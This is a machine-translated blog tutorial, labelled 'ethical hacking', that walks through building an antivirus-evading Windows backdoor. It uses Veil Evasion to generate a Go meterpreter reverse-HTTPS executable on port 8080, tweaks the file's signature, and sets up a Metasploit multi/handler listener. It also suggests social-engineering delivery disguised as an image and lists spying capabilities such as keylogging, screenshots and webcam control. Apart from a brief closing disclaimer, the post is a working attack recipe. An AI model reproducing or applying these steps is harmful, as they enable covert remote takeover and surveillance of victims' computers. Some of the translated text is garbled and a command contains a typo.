# 我如何为 Windows 创建一个不可检测的后门——道德黑客

> 原文：<https://infosecwriteups.com/how-i-created-an-undetectable-backdoor-for-windows-ethical-hacking-d26e40a0ec?source=collection_archive---------2----------------------->



# 什么是借壳？

后门是一种通过绕过计算机的正常身份验证和防火墙秘密获得对计算机的远程访问的方法。

在这篇博客中，我将写关于**我是如何为我的 Windows 机器创建了一个连杀毒软件都检测不到的后门的。**创建后门后，我可以在 Windows 机器上远程做很多事情，比如控制网络摄像头、截图、使用键盘记录器等。让我们开始吧。

我创建了可执行文件(。exe 文件)放在我的`Ubuntu machine`上。这个`.exe`文件，当在 windows 机器上运行时，为我的 Ubuntu 机器创建了一个后门，从那里我能够控制 windows 机器上的一切。



我们来看看需要遵循的步骤。

# 1.安装面纱

作为第一步，我们需要安装面纱。要安装面纱，你可以通过这个链接[https://www.javatpoint.com/installing-veil](https://www.javatpoint.com/installing-veil)。还需要为 ubuntu 用户安装**metasplitable-framework**(Kali 不需要)，可以从这里下载:[https://www.darkoperator.com/installing-metasploit-in-ubunt](https://www.darkoperator.com/installing-metasploit-in-ubunt)。

一旦安装完毕，你只需输入`veil`就可以开始了。(或者你可以在`veil`安装目录下输入`./Veil.py`来执行)。面纱壳将打开，如下所示:



# 2.在面纱中使用逃避

**面纱**框架有两个工具(`Evasion`和`Ordinance`)，在面纱外壳中键入**列表**即可看到。我们对`Evasion`感兴趣，所以我们键入

```
> use 1
```



# 3.生成后门可执行文件

在后门中会创建一个**反向连接**，即当目标人双击脚本时，他们的计算机会开始启动后门。所以它变得无法被许多反病毒软件检测到，因为没有外部机器请求连接。我还使用了端口`8080`，这是一个用于连接网站的常用端口，所以杀毒软件不会怀疑。

类型:

```
> list
```



我将使用第 15 个选项(它使用`go`作为 meterpreter 的编程语言)，因此我键入:

```
> use 15
```


我们需要设置一个后门程序试图连接的 IP 地址。在我的例子中，它是我当前的计算机，所以我将 LHOST 设置为这台 ubuntu 机器(攻击机器)的 IP。我还会将 LPORT 改为 8080。为了获得我的 IP，我使用了`ifconfig`。

要设置 LHOST 和 LPORT 运行:

```
> set LHOST <your_IP>
> set LPORT 8080
```



**反病毒程序的工作方式是，它们有一个非常大的文件签名数据库，这些文件签名被标记为可疑。**如果您的文件签名存在于数据库中，那么您的文件将被防病毒软件标记为可疑文件。所以使用更新版本的`veil`是一个很好的做法，因为更新版本的`veil`会产生后门来绕过杀毒软件。

我们应该尝试修改文件，使其更加独特，这样它就可以绕过防病毒程序。我写下下面两行没有真正的原因。这只是为了使签名有一点不同，以绕过反病毒。



接下来键入`generate`来生成文件。将出现一个提示来命名后门。我把它命名为`backdoor_8080`,但是你可以用不同的名字来命名，这样就不会引起怀疑。



将出现一个页面，显示保存的可执行文件的位置。



**恭喜恭喜！！！**后门生成。它存储在:`var/lib/veil/output/compiled/backdoor_8080.exe`

# 4.监听端口上的传入连接

在创建端口时，我使用了端口 8080。因此，我将打开我的 ubuntu 机器上的端口，以便当目标计算机运行可执行文件时，它准备好连接。为此，我使用了 Metasploit 框架。要运行 Metasploit 控制台，请运行`msfconsole`

```
$ msfconsole
```



> 注意:面纱规避实际上使用 Metasploit 来生成我们创建的后门。

为了打开端口，我使用了 Metasploit 提供的一个模块。叫`multi/handler`。所以我跑了，

```
> use exploit/multi/handler
```



键入`show options`查看设置的选项



我们将更改这些设置以适应我们的要求。运行以下命令:

```
> set PAYLAOD windows/meterpreter/reverse_https
> set LHOST <IP>
> set LPORT 8080
> show options
```

这里的<ip>是创建后门时使用的 IP</ip>



键入`exploit`开始监听端口

```
> exploit
```



# 5.将后门程序传送到目标计算机

有各种各样的社会工程方法将后门程序传送到目标计算机。下面的博客中描述了这样一种方法，我已经写了如何创建一个木马。基本上，它将`.exe`文件伪装成一个`.jpg`文件中的图像。

[](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) [## 我如何创建一个木马恶意软件——道德黑客

### 木马恶意软件，当打开时似乎是一个合法的文件，但在后台，它会运行一些邪恶的过程，如…

infosecwriteups.com](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) 

# 6.测试窗户上的后门

双击 Windows 机器中的`backdoor_8080.exe`文件执行我的可执行文件。

在我们监听 ubuntu 机器中的连接的 Metasploit 中，我们可以看到 metepreter shell 已经打开。



meterpreter 外壳将看起来如上所示。您可以键入`help`来获得一长串命令以及它们对您能做什么的描述。

您可以运行的基本命令列表如下

```
> sysinfo
> ipconfig
> pwd
> shell
```

除此之外，你还可以改变用户权限，上传/下载文件，运行这个可执行文件作为一个服务，截图，存储击键，以及许多其他的东西。

> 如果你喜欢我的博客，你可以点击下面的按钮或者点击下面的链接【https://www.buymeacoffee.com/gouravdhar[给我买杯咖啡](https://www.buymeacoffee.com/gouravdhar)

[](https://www.buymeacoffee.com/gouravdhar)

# 总结后门

虽然创建后门似乎是错误的，而且只有 blackhat 黑客才会这么做，但这并不完全正确。一些基于产品的公司还在他们的产品中创建后门，这样，如果他们的用户无法访问他们的帐户或产品，这些公司可以帮助他们获得访问权限。虽然上述方法是创建后门的好方法，但如果你想站在道德的一边，不要使用它来访问你没有权限访问的计算机。

> 这是一份探索我们博客平台 [**极客头脑**](https://www.thegeekyminds.com/) 的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。
> 
> 邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯

[](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)